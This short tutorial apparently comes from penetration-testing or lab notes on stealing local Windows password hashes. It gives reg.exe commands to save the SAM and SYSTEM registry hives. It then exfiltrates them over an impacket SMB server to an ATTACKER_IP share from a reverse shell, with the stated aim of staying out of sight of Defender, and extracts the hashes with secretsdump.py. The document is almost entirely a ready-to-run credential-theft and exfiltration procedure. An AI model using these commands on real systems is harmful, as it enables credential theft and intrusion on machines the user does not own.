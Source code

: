 Local user hashes are stored in the Windows Registry whilst the computer is running -- specically in the `HKEY_LOCAL_MACHINE\SAM` hive. This can also be found as a file at `C:\Windows\System32\Config\SAM`, however, this should not be readable whilst the computer is running. To dump the hashes locally, we first need to save the SAM hive:  
`reg.exe save HKLM\SAM sam.bak  
`

This saves the hive as a file called "sam.bak" in the current directory.

Dumping the SAM hive isn't quite enough though -- we also need the SYSTEM hive which contains the boot key for the machine:  
`reg.exe save HKLM\SYSTEM system.bak`

---

With both Hives dumped, we can exfiltrate them back to our attacking machine to dump the hashes out of sight of Defender.

It's up to you how you choose to exfiltrate the files.  We can use impacket smb server

`sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword`

Now, in our reverse shell, we can use this command to authenticate:  
`net use \\ATTACKER_IP\share /USER:user s3cureP@ssword`

`move sam.bak \\ATTACKING_IP\share\sam.bak`

---

Once we have the .bak files back on our machine, we can use secretsdump.py

`python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL`